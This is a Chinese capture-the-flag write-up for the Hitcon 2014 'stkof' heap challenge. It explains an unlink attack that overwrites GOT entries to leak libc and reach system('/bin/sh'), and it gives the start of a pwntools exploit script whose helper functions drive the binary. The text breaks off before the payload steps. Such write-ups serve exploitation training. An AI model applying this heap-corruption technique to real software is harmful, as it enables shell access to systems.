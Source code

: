 # Hitcon 2014 stkof

在free chunk的时候，向前合并，也就是高地址的chunk向前合并，在这个过程中，对前一个chunk，利用unlink，修改其指针为任意地址。

在这道题目中，我们可以修改chunk地址到bss区指针数组区，修改分配的chunk的指针为puts、system、atoi函数的plt地址，然后修改free的plt地址为puts的地址，这样就能输出puts的的地址，获取程序基址，然后修改atoi的plt为system的地址，输入("/bin/sh")，程序会执行：

ida里的反汇编代码：

```idl
  while ( fgets(nptr, 10, stdin) )
  {
    v3 = atoi(nptr);
```

就会直接执行system("/bin/sh")。



---

exp:

交互代码：

```python
# -*- coding: utf-8 -*-
import threading
import time
from pwn import *

c = process('./stkof')
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')

ptrArray = 0x602140

def addchunk(size):
    c.sendline('1')
    c.sendline(str(size))
    c.recvuntil('OK\n')

def edit(idx,cont):
    c.sendline('2')
    c.sendline(str(idx))
    c.sendline(str(len(cont)))
    c.send(cont)
    c.recvuntil('OK\n')

def free(idx):
    c.sendline('3')
    c.sendline(str(idx))
```

具体操作：
